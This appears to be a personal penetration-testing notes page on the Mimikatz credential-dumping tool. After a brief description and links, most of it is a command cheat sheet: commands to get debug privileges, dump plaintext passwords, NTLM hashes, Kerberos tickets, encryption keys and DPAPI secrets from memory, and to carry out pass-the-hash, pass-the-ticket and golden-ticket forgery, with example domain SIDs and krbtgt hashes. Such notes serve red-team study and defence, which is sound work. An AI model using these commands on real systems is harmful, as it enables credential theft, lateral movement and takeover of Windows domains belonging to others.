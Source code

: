 # About
Mimikatz is an incredibly effective offensive security tool developed by gentilkiwi. It is a post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers. Mimikatz is a very powerful tool when attacking,or defending Windows Systems, it can also play with certificates or private keys, vault and more.

Mimikatz can only dump credentials and password hashes if it is executed from the context of a privilege user, like local admin.
## Links
​[Mimikatz github(source)](https://github.com/gentilkiwi/mimikatz)​
​[Mimikatz binaries](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810)
# Usage
- Get debug rights (this or Local System rights is required for many Mimikatz commands).
```
privilege::debug
```
![[Pasted image 20250909132610.png]]
## sekurlsa
- Lists all available provider credentials. This usually shows recently logged on user and computer credentials.
```
sekurlsa::logonpasswords
```
![[Pasted image 20250909132616.png]]

```
sekurlsa::logonpasswords full
```

- Dump and export Kerberos tickets from memory
```
sekurlsa::tickets /export
```
- Pass the hash - PTH
```
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTLMHASH /run:cmd
```
## kerberos
- Dump and export Kerberos tickets from memory associated with active user sessions
```
kerberos::list /export
```
- Pass the ticket - PTT
```
kerberos::ptt c:\chocolate.kirbi
```
- Create a Golden Ticket 
```
kerberos::golden /admin:USER /domain:DOMAIN /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

## ekeys
- Dump encryption keys from the system's memory
```
sekurlsa::ekeys
```
![[Pasted image 20250909132637.png]]
## DPAPI
- Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory
```
sekurlsa::dpapi
```
![[Pasted image 20250909132643.png]]

## Golden/Silver Tickets
```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

```
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
```

```
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
```

```
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi
```

## TGT
- Interact with and manipulate Kerberos tickets
```
kerberos
```

```
kerberos::tgt
```

```
kerberos::list /export
```
![[Pasted image 20250909132629.png]]
